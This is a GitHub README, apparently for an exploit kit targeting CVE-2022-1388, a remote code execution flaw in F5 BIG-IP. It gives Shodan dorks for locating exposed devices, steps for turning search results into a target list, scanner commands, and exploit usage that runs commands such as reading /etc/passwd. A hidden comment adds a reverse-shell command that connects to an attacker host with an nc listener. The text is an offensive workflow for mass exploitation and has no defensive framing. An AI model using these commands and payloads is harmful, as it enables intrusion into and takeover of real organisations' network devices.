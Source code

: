 # CVE-2022-1388
![](https://img.shields.io/static/v1?label=Product&message=F5%20Big%20IP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=all%2012.1.x%20and%2011.6.x%2016.1.x,%20prior%20to%2016.1.2.2,%2015.1.x,%20prior%20to%2015.1.5.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
```
http.favicon.hash:-335242539
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the **_list_ip_** file.

Usage
---
- Check bash:
```
chmod +x scanner.sh; bash scanner.sh
```
- Check python:
```
pip install aiohttp termcolor
```
```
python3 scanner_fast.py -f list_ip
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
